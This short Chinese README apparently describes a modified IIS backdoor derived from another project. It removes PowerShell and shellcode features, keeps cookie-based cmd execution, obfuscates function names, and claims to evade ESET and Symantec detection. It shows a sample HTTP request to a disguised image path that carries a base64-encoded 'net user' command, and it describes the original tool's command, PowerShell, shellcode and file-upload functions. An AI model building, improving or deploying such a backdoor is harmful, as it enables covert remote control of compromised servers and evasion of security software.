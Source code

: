 参考WBGlIl大佬项目，删除powershell和shellcode功能，只保留cmd功能

Cookie: cmd= 改成 Cookie: set-cookie=，对函数名进行混淆

目前已绕过 eset 和 symantec 

```
GET /aspnet_client/system_web/iisstart.png HTTP/2
Host: 192.168.42.128
Cookie: set-cookie=bmV0IHVzZXI=
```
---


原项目地址：https://github.com/WBGlIl/IIS_backdoor。

主要是实现了3个功能执行cmd命令，C#调用powershell，执行shellcode

其实文件上传也写了就是IIS_backdoor_shell项目没有添加对应的选项

因为Cookie大小限制是4096所以不能传输很大的文件，你也可以自行修改项目不使用Cookie传输数据

其实还有很多可以改进的地方不过我懒的写了暂时就这样吧

代码写的比较渣大佬误喷
